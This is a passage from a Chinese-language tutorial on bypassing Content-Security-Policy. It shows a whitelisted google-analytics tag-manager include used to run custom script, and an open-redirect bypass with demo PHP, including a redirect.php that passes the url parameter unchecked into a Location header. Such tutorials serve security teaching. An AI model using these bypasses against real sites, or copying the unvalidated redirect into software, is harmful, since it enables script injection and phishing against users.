 1.可控的静态资源站点在白名单内

**demo**

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'unsafe-eval' https://www.google-analytics.com">
```

利用方法

```html
<script src="https://www.google-analytics.com/gtm/js?id=GTM-PJF5W64"></script>
```

案例中CSP设置了`unsafe-eval`白名单为`www.google-analytics.com` ，而`www.google.analytics.com`中提供了自定义javascript的功能（google会封装自定义的js，所以还需要`unsafe-eval`），于是可以绕过CSP

### 0x08 302跳转绕过

**条件**

1.在script-src允许的域下有需要获取的信息

2.在script-src允许的域下存在任意重定向

**demo**

a目录

```php+HTML
<!-- csp.php -->
<?php header("Content-Security-Policy: default-src 'self';script-src http://127.0.0.1/a/");?> 
<html> <head> </head> <body>     csp header test  </body> </html>
```

```php+HTML
<!-- redirect.php -->
<?php header("Location: " . $_GET[url]);?>
```

b目录

```php+HTML
<!-- test.php -->
<html><body><script>alert(123)</script></body></html>	
```

**利用方法**

```
http://127.0.0.1/a/redirect.php?url=/b/test.php
```

csp限制了`/a/`目录，而我们的目标脚本在`/b/`目录下则如果这时候请求redirect页面去访问`/b/`下的脚本是可以通过csp的检查的
